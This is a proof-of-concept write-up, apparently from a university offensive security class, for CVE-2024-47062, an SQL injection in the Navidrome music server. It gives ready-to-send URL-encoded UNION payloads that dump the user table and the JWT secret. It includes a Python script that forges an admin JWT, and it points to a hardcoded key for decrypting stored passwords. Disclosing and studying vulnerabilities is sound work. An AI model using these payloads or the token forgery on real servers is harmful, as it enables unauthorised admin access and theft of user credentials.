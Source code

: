 ```yaml
---
title: "CVE-2024-47062 PoC"
date: 2024-11-12
categories: []
tags: []
description: SQL Injection in Navidrome <=v0.52.5
---
```

![Landscape](navidrome_logo.png)

*GitHub link*: [https://github.com/saisathvik1/CVE-2024-47062](https://github.com/saisathvik1/CVE-2024-47062) 

> This PoC demonstrates how an SQL Injection vulnerability in Navidrome (CVE-2024-47062) can be exploited to gain admin access. It explains how SQL Injection can reveal sensitive data, how to use a JWT token to obtain admin privileges, and how to decrypt passwords with a hardcoded key stored in Navidrome. This project was created for our Hacking and Offensive Security class (18-739D) at CMU.

> Team: Michael Crotty, Annie Liu, Tilden Jackson, Sai Sathvik

## What is Navidrome?

[Navidrome](https://www.navidrome.org/) is a lightweight, self-hosted music server that enables users to stream their music library from anywhere. It is designed to be compatible with Subsonic API clients, allowing users to connect to and play their music collections through various apps and devices. Navidrome's features make it ideal for personal streaming needs, but like any software, it can have vulnerabilities. This PoC explores one such vulnerability that allows unauthorized access to sensitive data through SQL Injection.


## Setup
- Create `navidrome-music` and `navidrome-data` directories.
- Download `docker-compose.yaml`, then run `sudo docker-compose up -d` to install the container.
- `Navidrome.db` is created when the instance is launched for the first time in the `navidrome-data` directory.
- Service can be accessed from `http://127.0.0.1:4533`


## Exploitation

### SQL Injection

- This SQL Injection vulnerability arises because parameters from the URL are being directly embedded in SQL queries without proper sanitization. This allows us to inject SQL code by carefully crafting parameters in the URL.

- The injection can be triggered by passing specific queries directly into the URL, as they are URL-encoded before reaching the server. This encoding allows malicious queries to slip through as part of the request.

- Example: Passing `'=1` as a parameter triggers an error in the logs, revealing the SQL structure and confirming the vulnerability:

    ```plaintext
    GET /api/radio?%27=1 HTTP/1.1

    Log:
    SELECT count(distinct radio.id) as count FROM radio WHERE (' LIKE {:p0})

    Response:
    "error":"unrecognized token: \"' LIKE ?)\""
    ```

- By reversing and analyzing the Navidrome database (`strings Navidrome.db`), we identified that the `radio` table is a part of the database. This insight allows us to use the `/api/radio` endpoint for SQL Injection testing. The same vulnerability should work across other endpoints that interact with `/api`, since they also incorporate unsanitized parameters directly into queries.

- For example, `/api/album` interacts with the `album` table, and this technique could similarly be applied there. We chose `/api/radio` for demonstration as it has fewer columns, which simplifies testing. Using a payload like `1=1) order by 6--` allowed us to determine the number of columns, confirming the structure expected by the query.

- With this knowledge, it’s clear that this SQL Injection vulnerability is not limited to the `radio` endpoint but can potentially be exploited on most `/api/*` endpoints where user input is embedded directly in SQL queries without proper sanitization.

- Using the payload below, we can dump the `user` table:
  `1=1) UNION SELECT id,user_name,password,is_admin,'','' FROM user --`

```plaintext
GET /api/radio?%31%3d%31%29%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%69%64%2c%75%73%65%72%5f%6e%61%6d%65%2c%70%61%73%73%77%6f%72%64%2c%69%73%5f%61%64%6d%69%6e%2c%27%27%2c%27%27%20%46%52%4f%4d%20%75%73%65%72%20%2d%2d=1 HTTP/1.1
```

![image](https://github.com/user-attachments/assets/8f8afd5a-0fa6-43fd-b4de-066ab1d6fcde)

### Extracting the JWT Secret from `property` Table

To retrieve the JWT Secret, we can dump the `property` table:

- Payload: `1=1) UNION SELECT ID,VALUE,'','','','' FROM property --`

```plaintext
GET /api/radio?%31%3d%31%29%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%69%64%2c%76%61%6c%75%65%2c%27%27%2c%27%27%2c%27%27%2c%27%27%20%66%72%6f%6d%20%70%72%6f%70%65%72%74%79%20%2d%2d=1 HTTP/1.1
```

![image](https://github.com/user-attachments/assets/7490eb9c-0619-42b2-ad1f-ae542f679e23)

### Crafting an Admin JWT Token

With the `JWTSecret` from `property`, we can create a new JWT token with admin privileges. If the password cannot be decrypted, this new token allows us to bypass access restrictions.

1. Analyzing the JWT token of the currently logged-in user:

    ![image](https://github.com/user-attachments/assets/cd1e7482-6b9c-43a1-95df-e72e9c74389f)

2. Since we have `JWTSecret`, we can construct a new token. For instance, if the user isn’t an admin, they can't view the `/api/users` endpoint:

    ![image](https://github.com/user-attachments/assets/4afc4f62-0252-492d-9064-9e640c80a7d7)

3. Use the following Python script (`create_jwt.py`):

    ```python
    import jwt

    secret = "c1f24a44-98cc-4049-ada2-95363e18e437"

    payload = {
      "exp": 1731449169,
      "iat": 1731276369,
      "iss": "ND",
      "sub": "sai",
      "uid": "d8f80c03-103a-4623-9fa9-fafa8836ca52"
    }

    token = jwt.encode(payload, secret, algorithm="HS256")
    print(token)
    # Output: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MzE0NDkxNjksImlhdCI6MTczMTI3NjM2OSwiaXNzIjoiTkQiLCJzdWIiOiJzYWkiLCJ1aWQiOiJkOGY4MGMwMy0xMDNhLTQ2MjMtOWZhOS1mYWZhODgzNmNhNTIifQ.GwtwapWo94fXOx7WSCQYpTVYfxeoLH0jpobfhjSzGX0
    ```

4. Now we have admin privileges and can view all users:

    ![image](https://github.com/user-attachments/assets/42d19ba0-e3d5-4114-bc5c-033eade56b7c)

5. To register a new user, send a `POST` request with new user details:

    ![image](https://github.com/user-attachments/assets/79963a12-d5ed-46c0-8b7f-3cb2aabb9d8c)

### Decrypting Passwords with a Hardcoded Key

Navidrome uses AES encryption in GCM mode to store encrypted passwords instead of hashing, and it employs a hardcoded key: `"just for obfuscation"`. This allows us to decrypt passwords with `decryptor.py`.

![image](https://github.com/user-attachments/assets/4c117c48-2dbe-44c8-8caf-ab10507da53f)

---

### Automate Everything

The `exploit.py` script automates data extraction from the `User` and `Property` tables.

![image](https://github.com/user-attachments/assets/68bf84d3-6ae7-41ea-8856-8e6fe2d23a05)

---

### References

1. [Navidrome Security Advisory](https://github.com/navidrome/navidrome/security/advisories/GHSA-58vj-cv5w-v4v6)
2. [JWT Documentation](https://jwt.io/)
3. [SQL Injection Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
4. [JSON Web Token on Wikipedia](https://en.wikipedia.org/wiki/JSON_Web_Token)